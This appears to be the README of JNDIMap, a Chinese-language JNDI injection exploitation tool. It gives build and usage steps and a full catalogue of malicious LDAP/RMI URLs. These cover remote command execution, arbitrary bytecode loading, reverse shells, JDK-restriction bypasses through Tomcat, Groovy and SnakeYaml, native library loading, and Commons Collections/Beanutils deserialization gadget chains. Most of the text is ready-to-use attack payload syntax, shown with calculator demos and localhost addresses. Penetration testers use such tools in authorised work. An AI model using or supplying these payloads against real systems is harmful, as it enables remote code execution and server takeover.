 # JNDIMap

JNDIMap 是一个 JNDI 注入利用工具, 支持 RMI 和 LDAP 协议

目前支持以下功能

- DnsLog
- 命令执行
- 原生反弹 Shell (支持 Windows)
- 加载自定义 Class 字节码
- Tomcat/Groovy/SnakeYaml 绕过高版本 JDK
- MLet 探测可用 Gadget
- NativeLibLoader 加载动态链接库
- LDAP 反序列化

## Compile

目前 Release 版本暂未发布, 推荐手动编译

```bash
git clone https://github.com/X1r0z/JNDIMap
cd JNDIMap
mvn package -Dmaven.test.skip=true
```

## Usage

```bash
Help: java -jar JNDIMap.jar [-i <ip>] [-r <rmiPort>] [-l <ldapPort>] [-p <httpPort>] [-u] [-h]
````

`-i`: 服务器监听 IP (即 codebase, 必须指定为一个目标可访问到的 IP, 例如 `192.168.1.100`, 不能用 `0.0.0.0`)

`-r`: RMI 服务器监听端口, 默认为 `1099`

`-l`: LDAP 服务器监听端口, 默认为 `1389`

`-p`: HTTP 服务器监听端口, 默认为 `3456`

`-u`: 显示 JNDI URL 信息

`-h`: 显示 Help 信息

## JNDI URL

注意传入的 Base64 均为 **Base64 URL 编码**, 即把 `+` 和 `/` 替换为 `-` 和 `_`

以下路由除 `/Deserialize/*` (LDAP 反序列化) 以外, 均支持 RMI 和 LDAP 协议

对于 RMI 协议, 只需要将 `ldap://127.0.0.1:1389/` 替换为 `rmi://127.0.0.1:1099/` 即可

```bash
# DnsLog
ldap://127.0.0.1:1389/Basic/DnsLog/xxx.dnslog.cn

# 命令执行
ldap://127.0.0.1:1389/Basic/Command/open -a Calculator
ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yCg==

# 从字符串/服务器上的某个路径加载自定义的 Class 字节码
ldap://127.0.0.1:1389/Basic/FromCode/<base64-java-bytecode>
ldap://127.0.0.1:1389/Basic/FromPath/<base64-path-to-evil-class-file>

# 反弹 Shell (支持 Windows)
ldap://127.0.0.1:1389/Basic/ReverseShell/127.0.0.1/4444

# 以下 Bypass 方式支持 Basic 所有功能

# Tomcat Bypass
ldap://127.0.0.1:1389/TomcatBypass/Command/open -a Calculator

# Groovy Bypass
ldap://127.0.0.1:1389/GroovyClassLoader/Command/open -a Calculator
ldap://127.0.0.1:1389/GroovyShell/Command/open -a Calculator

# SnakeYaml Bypass
ldap://127.0.0.1:1389/SnakeYaml/Command/open -a Calculator

# MLet 探测可用 Gadget
# 如果 com.example.TestClass 这个类存在, 则 HTTP 服务器会接收到一个 /com/example/TestClass_exists.class 请求
ldap://127.0.0.1:1389/MLet/com.example.TestClass

# NativeLibLoader 加载动态链接库
# 需要通过其它方式在目标机器上写入一个 dll/so/dylib, 然后通过 NativeLibLoader 加载
# 注意传入的 path 为绝对路径, 且不能包含后缀名
# 例如: 服务器上存在 /tmp/evil.so, 则 path 为 /tmp/evil
ldap://127.0.0.1:1389/NativeLibLoader/<base64-path-to-native-library>

# 自定义数据 反序列化
ldap://127.0.0.1:1389/Deserialize/<base64-serialize-data>

# CommonsCollectionsK1 反序列化 (3.1 + TemplatesImpl), 支持命令执行和反弹 Shell
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK1/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK1/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yCg==
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK1/ReverseShell/127.0.0.1/4444

# CommonsCollectionsK2 反序列化 (4.0 + TemplatesImpl), 功能同上
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK2/Command/open -a Calculator

# CommonsCollectionsK3 反序列化 (3.1 + Runtime.exec), 仅支持命令执行
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK3/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK3/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yCg==

# CommonsCollectionsK4 反序列化 (4.0 + Runtime.exec), 功能同上
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK4/Command/open -a Calculator

# CommonsBeanutils1NoCC 反序列化 (1.9.4, 无需 commons-collections 依赖), 使用 TemplatesImpl, 支持命令和反弹 Shell
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils1NoCC/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils1NoCC/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yCg==
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils1NoCC/ReverseShell/127.0.0.1/4444
```